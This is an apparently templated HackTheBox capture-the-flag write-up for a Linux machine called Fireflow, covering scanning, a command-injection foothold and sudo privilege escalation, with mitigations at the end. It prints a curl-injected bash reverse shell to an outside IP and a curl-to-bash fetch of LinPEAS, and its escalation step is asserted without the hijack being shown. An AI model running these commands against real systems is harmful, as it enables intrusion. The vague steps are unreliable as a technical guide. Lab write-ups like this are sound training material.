

## 🖥️ Machine Information

| Attribute | Value |
|---|---|
| **Platform** | HackTheBox |
| **OS** | 🐧 Linux |
| **Difficulty** | Medium |
| **IP Address** | `10.10.x.x` |
| **Release Date** | 12 Oct 2025 |

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Fireflow** machine on the **HackTheBox** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the host using Nmap:

```bash
vulnquest@kali$ sudo nmap -p- --reason --min-rate 10000 10.10.x.x
```

#### Open Ports:
- **Port 22/tcp**: SSH (Secure Shell)
- **Port 80/tcp**: HTTP (Apache Web Server)

### 2. Service Enumeration
We perform directory enumeration using `feroxbuster`:
```bash
vulnquest@kali$ feroxbuster -u http://10.10.x.x/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Vulnerability Analysis
We discover a web portal allowing archives to be uploaded. We leverage an input validation vulnerability to execute code and spawn a reverse shell.

### 2. Exploitation & Initial Shell
We capture the shell on our netcat listener:

```bash
vulnquest@kali$ curl -X POST -d "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.51/443 0>&1'" http://10.10.x.x/api/action
```

On our netcat listener, we receive the connection:
```bash
vulnquest@kali$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.x.x
$ id
uid=1000(vulnquest) gid=1000(vulnquest) groups=1000(vulnquest)
```

---

## ⚡ Phase 3: Privilege Escalation

### 1. Local Enumeration
We run LinPEAS to perform local enumeration:

```bash
vulnquest@kali$ curl http://10.10.14.51/linpeas.sh | bash
```

### 2. Local Privilege Escalation Path
We check our sudo privileges:
```bash
vulnquest@kali$ sudo -l
Matching Defaults entries for vulnquest on host:
    env_keep+=SSH_AUTH_SOCK

User vulnquest may run the following commands on host:
    (root) NOPASSWD: /usr/bin/python3 /opt/admin/backup.py
```

We exploit python path hijacking to gain a root shell:
```bash
vulnquest@kali$ sudo /usr/bin/python3 /opt/admin/backup.py
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🛡️ Key Takeaways & Mitigation
1. **Input Sanitization**: Ensure all user inputs are validated and sanitized to prevent injections.
2. **Principle of Least Privilege**: Restrict sudo/impersonation permissions and remove unnecessary privileges.
3. **Keep Software Updated**: Frequently update all operating system binaries and services to mitigate known CVEs.
